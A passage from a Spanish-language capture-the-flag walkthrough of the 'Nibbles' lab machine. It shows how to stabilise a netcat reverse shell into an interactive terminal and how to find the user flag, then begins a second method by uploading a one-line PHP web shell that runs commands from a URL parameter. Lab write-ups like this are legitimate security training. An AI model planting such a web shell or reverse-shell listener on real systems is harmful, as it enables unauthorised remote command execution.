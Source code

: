 * Ahora escribe el siguiente comando en tu máquina:
```bash
 stty raw -echo; fg       
[1]  + continued  nc -nvlp 443
```

* Escribe **reset** y te preguntará que tipo de terminal quieres, pon **xterm**:
```bash
[1]  + continued  nc -nvlp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

* Exportemos **xterm**, **bash** y cambiemos el tamaño de la terminal (este último es opcional, pero lo recomiendo):
```bash
nibbler@Nibbles:/$ export TERM=xterm
nibbler@Nibbles:/$ export SHELL=bash
nibbler@Nibbles:/$ stty rows 51 columns 189
```
Y listo, ya tenemos nuestra terminal interactiva.

* Ahora busquemos la flag:
```bash
nibbler@Nibbles:/$ whoami 
nibbler
nibbler@Nibbles:/$ cd /home
nibbler@Nibbles:/home$ ls -la
total 12
drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
drwxr-xr-x 23 root    root    4096 Dec 15  2020 ..
drwxr-xr-x  3 nibbler nibbler 4096 Dec 29  2017 nibbler
nibbler@Nibbles:/home$ cd nibbler/
nibbler@Nibbles:/home/nibbler$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr 19 18:09 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
```

<br>

<h3 id="Forma2">Utilizando CMD de PHP para Ganar Acceso a la Máquina</h3>

Como ya vimos que podemos cargar archivos PHP, se me ocurrio que tal vez podamos agregar un archivo que funcione como una CMD, esto ya lo hemos hecho antes, así que probemos si funciona.

Vamos por pasos:

* Crea el siguiente **archivo PHP** que servira como una **CMD** en la web:
```php
<?php
	system($_GET['cmd']);
?>
```
